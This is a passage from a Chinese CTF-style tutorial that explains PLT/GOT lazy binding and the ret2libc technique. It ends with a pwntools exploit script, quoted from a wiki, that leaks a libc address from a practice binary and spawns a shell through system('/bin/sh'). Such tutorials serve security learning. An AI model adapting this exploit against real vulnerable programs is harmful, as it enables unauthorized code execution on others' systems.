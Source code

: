 上面分别有三个表项，分别是`common`（真实情况下不叫这个名字，而是最近的函数名）、`print`和`main`在`plt`表中的样子。

仍然看`print`表项，有三步：

第一步地址`80482e0`处是`jmp`到某个地址。这个其实就是`jmp`到`got`表中去查看`print`的真实地址了。

然而，此时`got`表中也没有存储`print`的真实地址，而是存储的`80482e6`。诶，这不是`print@plt`的第二步吗？怎么又返回到`plt`表中去了呢？

因为`plt`表中的第二步和第三步其实是“寻找`print`在`libc`中的地址，并将其写到`got`表中去”的意思。将真正的地址放到`got`表中后，以后若再次访问`print`函数的`got`表，就可以直接获得`print`函数的`libc`的地址了，这也就是延迟绑定机制。

总结一下，对于一个没有访问过的函数而言，查表流程是这样的：

`plt`->`got`->`plt`->`公共plt`->寻找在`libc`中的地址并存储到`got`表。

若该函数已经被访问过，则流程简单如下：

`call xxx@plt`->`plt`->`got`

### ret2libc流程

为什么要`ret2libc`？因为有的情况下，程序里面不会给我们提供一些显式的字符串，也没有可以利用的`gadgets`。但我们的程序需要使用库函数，是要连接`libc`库里面的，我们便可以利用`libc`库中的其他函数，只是需要知道函数在`libc`中的地址。虽然这个地址肯定是会变的，但是函数与函数间的相对地址不会变；或者说即使程序有ASLR保护，也只针对地址中间位进行随机，最低12位不会发生变化。因此我们只需要获得某一个函数在`libc`中的地址，就可以通过相对地址来获得其他的函数。

通过延迟访问机制后，我们即可明白：若直接访问一个没有访问过的函数的`got`表，是没有办法得到这个函数在`libc`中的真实地址的。因此，我们只能泄露一个已经访问的函数在`got`表中的地址。

这里写一个`wiki`里面的`exp`：

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
